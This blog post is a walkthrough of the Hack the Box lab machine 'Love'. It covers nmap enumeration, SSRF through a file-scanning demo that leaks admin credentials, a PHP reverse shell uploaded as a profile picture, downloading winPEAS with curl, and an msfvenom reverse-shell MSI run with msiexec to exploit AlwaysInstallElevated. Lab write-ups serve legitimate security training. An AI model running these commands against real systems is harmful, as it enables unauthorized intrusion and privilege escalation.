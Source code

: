 +++
author = "Nick"
categories = ["hack the box", "easy", "windows", "reverse shell", "AlwaysInstallElevated", "msfvenom"]
date = 2021-08-07T15:00:00Z
description = ""
draft = false
image = "__GHOST_URL__/content/images/2021/05/love.png"
slug = "hack-the-box-love"
summary = "Welcome back! Today we are going to be doing the Hack the Box machine - Love. This is listed as an Easy Windows machine. Let's jump in.\n"
tags = ["hack the box", "easy", "windows", "reverse shell", "AlwaysInstallElevated", "msfvenom"]
title = "Hack the Box - Love"

+++


Welcome back! Today we are going to be doing the Hack the Box machine - Love. This is listed as an Easy Windows machine. Let's jump in.

As always, we kick it off with `nmap`.

Here are our results:
```
PORT      STATE SERVICE      VERSION
80/tcp    open  http         Apache httpd 2.4.46 ((Win64) OpenSSL/1.1.1j PHP/7.3.27)
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
|_http-title: Voting System using PHP
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
443/tcp   open  ssl/http     Apache httpd 2.4.46 (OpenSSL/1.1.1j PHP/7.3.27)
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
|_http-title: 403 Forbidden
| ssl-cert: Subject: commonName=staging.love.htb/organizationName=ValentineCorp/stateOrProvinceName=m/countryName=in
| Not valid before: 2021-01-18T14:00:16
|_Not valid after:  2022-01-18T14:00:16
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|_  http/1.1
445/tcp   open  microsoft-ds Windows 10 Pro 19042 microsoft-ds (workgroup: WORKGROUP)
3306/tcp  open  mysql?
| fingerprint-strings: 
|   NULL, X11Probe: 
|_    Host '10.10.14.125' is not allowed to connect to this MariaDB server
5000/tcp  open  http         Apache httpd 2.4.46 (OpenSSL/1.1.1j PHP/7.3.27)
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
|_http-title: 403 Forbidden
5040/tcp  open  unknown
5985/tcp  open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
5986/tcp  open  ssl/http     Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
| ssl-cert: Subject: commonName=LOVE
| Subject Alternative Name: DNS:LOVE, DNS:Love
| Not valid before: 2021-04-11T14:39:19
|_Not valid after:  2024-04-10T14:39:19
|_ssl-date: 2021-05-18T18:25:43+00:00; +32m45s from scanner time.
| tls-alpn: 
|_  http/1.1
47001/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc        Microsoft Windows RPC
49665/tcp open  msrpc        Microsoft Windows RPC
49666/tcp open  msrpc        Microsoft Windows RPC
49667/tcp open  msrpc        Microsoft Windows RPC
49668/tcp open  msrpc        Microsoft Windows RPC
49669/tcp open  msrpc        Microsoft Windows RPC
49670/tcp open  msrpc        Microsoft Windows RPC
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port3306-TCP:V=7.91%I=7%D=5/18%Time=60A3FE4D%P=x86_64-pc-linux-gnu%r(NU
SF:LL,4B,"G\0\0\x01\xffj\x04Host\x20'10\.10\.14\.125'\x20is\x20not\x20allo
SF:wed\x20to\x20connect\x20to\x20this\x20MariaDB\x20server")%r(X11Probe,4B
SF:,"G\0\0\x01\xffj\x04Host\x20'10\.10\.14\.125'\x20is\x20not\x20allowed\x
SF:20to\x20connect\x20to\x20this\x20MariaDB\x20server");
Service Info: Hosts: www.example.com, LOVE, www.love.htb; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 2h17m46s, deviation: 3h30m02s, median: 32m44s
| smb-os-discovery: 
|   OS: Windows 10 Pro 19042 (Windows 10 Pro 6.3)
|   OS CPE: cpe:/o:microsoft:windows_10::-
|   Computer name: Love
|   NetBIOS computer name: LOVE\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2021-05-18T11:25:33-07:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2021-05-18T18:25:30
|_  start_date: N/A
```

One of the first things we see is the DNS name given as `love.htb` and `staging.love.htb`. So we'll add this to our hosts list. Next we'll head over to see what's being hosted on port 80. We see a voting system. Next we check port 5000, nothing, it's forbidden. Next up is port 5040, nothing, it just times out. We check out `love.htb` on port 443, also forbidden. Now we'll head over to see what's being hosted on `staging.love.htb`.

When we land on this virtual host, we see a file scanning service. WE even have the option to demo the software. The page is asking for a URL to scan. So we setup a `netcat` listener on our local machine and point it to that URL.

{{< figure src="__GHOST_URL__/content/images/2021/05/image-35.png" >}}

Interesting. So, to test this further, we can create a file and see what happens when the URL is a file. We simple create a file with touch, populate it with junk data and host it. We then use the demo to read the file and get whatever it might tell us about the file.

Commands:
`touch 1.lst`
`echo 'hi' > 1.lst`
`simple` (This is an alias'd to `SimpleHTTPServer` for me)

{{< figure src="__GHOST_URL__/content/images/2021/05/love_test.gif" >}}

So we know that it will read the contents of whatever the item we supply is. So my thought here is to let this demo read the pages that were forbidden to us earlier. If the server is trying to query itself, it's likley we won't get forbidden. Port 443 didn't yield anything, however port 5000 did!

{{< figure src="__GHOST_URL__/content/images/2021/05/image-36.png" >}}

Awesome, we have some credentials `admin`:`@LoveIsInTheAir!!!!`. Now we need to identify where we can use them. They don't work in the standard entry form. To dig a bit more we'll use `gobuster` to help enumerate more.

Command:
`gobuster dir -u http://love.htb -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt`

We find an `admin` directory.

{{< figure src="__GHOST_URL__/content/images/2021/05/image-37.png" >}}

Awesome, the credentials work on this interface! Once we're in the admin portal, we look around for additional ways to pivot. After looking around, it seems like uploading a shell as a user profile picture could be a valid method. There are many `php shells` out there, pick one you [like](https://github.com/pentestmonkey/php-reverse-shell).

{{< figure src="__GHOST_URL__/content/images/2021/05/love_shell.gif" >}}

We setup our listen and catch a connection back immediately. We then navigate to `Phoebe`'s Desktop and snag the `user.txt` flag! Awesome, now it's time to start enumerating so we can find a path forward. We'll spin up a `SimpleHTTPServer` and transfer over `winPEAS`. A quick check shows we have `curl` on the system, we'll use that to get our file.

Command:
`curl http://10.10.14.125/winPEAS.bat -o wp.bat`

{{< figure src="__GHOST_URL__/content/images/2021/05/image-39.png" >}}

That takes quite a while to run, but after sifting through the results, it looks like we can use `AlwaysInstallElevated` to [escalate](https://dmcxblue.gitbook.io/red-team-notes/privesc/unquoted-service-path).

First we'll generate a payload via `msfvenom`.

Command:
`msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.125 LPORT=6969 -f msi -o rootme.msi`

Once that is generated, we can host it via `SimpleHTTPServer` and download it onto the target. Once its on the system, we run the following command.

Command:
`msiexec /quiet /qn /i C:\Users\Phoebe\Downloads\rm.msi`

{{< figure src="__GHOST_URL__/content/images/2021/05/image-38.png" >}}

We catch a shell back as `system`! Let's get the `root.txt` flag and we have completed the box!



